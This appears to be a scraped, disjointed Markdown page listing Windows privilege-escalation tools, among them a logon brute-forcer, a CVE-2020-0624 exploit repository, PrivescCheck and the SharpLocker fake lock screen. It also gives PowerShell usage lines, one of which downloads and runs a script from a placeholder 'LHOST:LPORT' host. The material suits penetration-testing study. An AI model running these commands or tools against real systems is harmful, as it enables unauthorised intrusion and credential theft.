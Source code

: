 Target: Windows XP to Latest Windows 10 Version (1909)

[![Console](https://i.ibb.co/Cm5052S/screen.png)](https://github.com/DarkCoderSc/win-brute-logon/blob/master/README.md)


### [CVE-2020-0624](https://github.com/james0x40/CVE-2020-0624)




[![peass](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/peass.png)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)


<p align="center">
  <img src="https://github.com/itm4n/FullPowers/raw/master/demo.gif">
</p>

#### https://github.com/itm4n/FullPowers



[![](https://securityonline.info/wp-content/uploads/2020/02/get-help.png)](https://github.com/itm4n/PrivescCheck)


## Usage PrivescCheck

Use the script from a PowerShell prompt.
```
PS C:\Temp\> Set-ExecutionPolicy Bypass -Scope Process -Force 
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck 
```

Display output and write to a log file at the same time.
```
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck | Tee-Object "C:\Temp\result.txt"
```

Use the script from a CMD prompt.
```
C:\Temp\>powershell -ep bypass -c ". .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck | Tee-Object result.txt"
```

Import the script from a web server.
```
C:\Temp\>powershell "IEX (New-Object Net.WebClient).DownloadString('http://LHOST:LPORT/Invoke-PrivescCheck.ps1'); Invoke-PrivescCheck" 
```

https://github.com/Pickfordmatt/SharpLocker

![Working SharpLocker](https://github.com/Pickfordmatt/SharpLocker/blob/master/sharplocker.png?raw=true)

![](https://1.bp.blogspot.com/-vWTZFXpgriQ/XpXLWa3sWUI/AAAAAAAAjjg/BzDVi7-8N9U9mSx8TYYYCeSuAwDKjn2rACLcBGAsYHQ/s1600/19.png)
